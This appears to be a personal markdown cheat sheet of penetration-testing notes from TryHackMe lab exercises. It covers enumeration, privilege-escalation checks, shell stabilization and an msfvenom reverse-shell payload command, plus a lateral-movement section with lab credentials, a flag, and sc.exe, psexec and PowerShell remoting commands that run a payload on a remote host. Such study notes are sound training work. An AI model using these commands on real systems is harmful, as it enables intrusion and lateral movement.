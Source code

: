 # Basic Steps

[Tyler's Notebook](https://southeasttech-my.sharepoint.com/:o:/g/personal/tyler_ramsbey_southeasttech_edu/EmrNEjx_FjRKjYRotc9TikMB7DtzCwhKWOAEovdtZADBgg?rtime=bQkHVxRr20g)

## Automatic web enum
- dirb | dirsearch
- linpeas
- wpsscan -U user -P password

## Basic network
- nmap (all ports)
  - script: locate -r nse$ | grep NAME
- nmap Scrips
  - locate -r nse$ | grep mysql = nmap script

## Linux
- sudo -l
- find / -perm -u=s -type f 2>/dev/null
- find / -type f -perm -04000 -ls 2>/dev/null 
- psexec.py
- lscpu
- lsblk -a
- lsusb -v
- lspci -t -v
- fidlist -l
  
- Shell stabilize
  -  python3 -c 'import pty;pty.spawn("/bin/bash")'
  - python3 -c  import pty;pty.spawn('/bin/bash') 
  - export TERM=xterm

## Payloads
- msfvenom - reverse -f aspx -o app.aspx

## Windows
- /priv
- systeminfo
- smb read/write
- browser cache
- scheduled task
- UAC
- Check loggings
  - sysmon enable / powershell loggging enabled ?
- echo %VARIABLE%


# Lateral Movement
arthur.campbell:Pksp9395

$ ssh za.tryhackme.com\\arthur.campbell:@thmjmp2.za.tryhackme.com


sc.exe \\thmiis.za.tryhackme.com create THMservice-3244 binPath= "%windir%\pat.exe" start=auto
THM{MOVING_WITH_SERVICES}

\\thmiis.za.tryhackme.com 

psexec64.exe \\thmiis.za.tryhackme.com -u ZA.TRYHACKME.COM\t1_leonard.summers -p EZpass4ever -i %windir%\pat.exe

psexec64.exe \\thmiis.za.tryhackme.com -u t1_leonard.summers -i %windir%\pat.exe

===
$username = 'ZA.TRYHACKME.COM\t1_leonard.summers';
$password = 'EZpass4ever';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;

Enter-PSSession -Computername \\thmiis.za.tryhackme.com -Credential $credentialwho
